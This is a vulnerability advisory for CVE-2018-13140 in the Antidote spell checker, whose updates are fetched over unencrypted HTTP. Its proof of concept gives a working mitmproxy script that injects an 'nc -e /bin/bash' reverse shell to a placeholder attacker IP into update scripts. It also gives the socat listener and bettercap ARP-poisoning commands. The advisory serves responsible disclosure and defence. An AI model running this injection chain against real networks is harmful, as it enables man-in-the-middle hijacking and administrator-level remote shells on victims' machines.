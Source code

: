 # [CVE-2018-13140] Antidote Remote Code Execution against the update component

## Description

Antidote is a spell checker software for Windows, Linux macOS operating system.

**Threat**

The application is affected by a remote code execution against the update component. It leads to code execution with high privileges against the targeted system.

**Expectation**

Network operations like an update component should be held through encrypted communication channels like TLS, to prevent all sorts of hijacking attacks.

## CVSS Score:

**CVE ID**: CVE-2018-13140

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-311

**CVSS Base Score**: 8.2

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:N/I:H/A:L

# Details

Antidote downloads its installation packages over HTTP protocol, without any kind of encryption such as TLS.

An attacker can thus perform a Man-In-The-Middle attack to intercept the update request / response in order to replace or patch the downloaded package.

Moreover, after the download is done, the component asks for administrator rights to install the update, allowing thus an attacker to run the payload as an administrator with privileged rights.


## Proof of Concept

We developed a simple `mitm-proxy` module to exploit this vulnerability, here the python source code:

```
#(this script works best with --anticache)

from mitmproxy import http

MATCH = "export "
CMD_TO_INJECT = "nc -e /bin/bash IP_OF_ATTACKER 4444&"

class Injector:
    def response(self, flow: http.HTTPFlow) -> None:
        if MATCH.encode() in flow.response.content:
            print("Match detected")
            cmd = "\n%s\n%s" % (CMD_TO_INJECT, MATCH)
            flow.response.content = flow.response.content.replace(MATCH.encode(),cmd.encode())

addons = [Injector()]
```

The previous script is looking for the `export ` string for each HTTP responses, in order to replace it with a simple command to give the attacker a remote reverse shell. Thereafter, when the update script is called by the update software component, the simple command is firstly run as a simple user. The update script asks then user for the administrator password, allowing our command to be executed as administrator.

In fact, we could thus obtain two remote shells (as simple user and administrator), using a multithreaded listening TCP handler: 

* The first one when the script is started (user privileges) ;

* The second one after the victim types his credentials (administrator privileges).

The following commands are used to exploit the vulnerability, using a Man-In-The-Middle attack:

* a multithreaded `socat` TCP listener, to receive the victim reverse connection with low privileges against the target:

```
socat - TCP-LISTEN:4444,fork
```

* the mitm-proxy with our dedicated module:

```
mitmproxy -s antidote.py --anticache --listen-port 9090 -m transparent
```

* ARP Cache Poisoning using bettercap and redirecting traffic to mitm-proxy:

```
bettercap -I YOUR_NETWORK_INTERFACE -T VICTIM_IP_ADDRESS --custom-proxy YOUR_IP_ADDRESS --custom-proxy-port 9090 -S ARP
```

When the Antidote software asks for an update, `mitmproxy` will automatically patch the update component using our reverse shell payload included.

After the end of the download, the user will press `install`, leading to the execution of the two payloads, as described.

## Timeline (dd/mm/yyyy)

Congratulations to Druide for handling this security response very quickly and professionally:

* 30/04/2018 : Initial discovery.
* 30/04/2018 : Contact acknowledgment.
* 11/05/2018 : Detailed report communicated to Druide.
* 12/05/2018 : Technical response, confirming the vulnerability and stating which versions are affected (Windows, Linux, but not Mac OS).
* 08/06/2018 : Follow up e-mail from Druide informing about the patching development status and  roadmap.
* 23/06/2018 : Druide informs us of the fixed versions and suggest a disclosure date on 31/07/2018 to let enough time for customers to patch.
* 21/09/2018 : Disclosure.

## Fixes

* Antidote 9.5.2 (Windows/Linux)
* Antidote 8.5.2 (Windows)
* Antidote HD 6.1.2 (Windows)

## Affected versions

* All Antidote Windows/Linux versions <= 9.5.1
* Mac OS versions are unaffected (already using TLS encryption for updates)

## Credits

* Mickael KARATEKIN <mickael.karatekin -at- tnpconsultants.com>
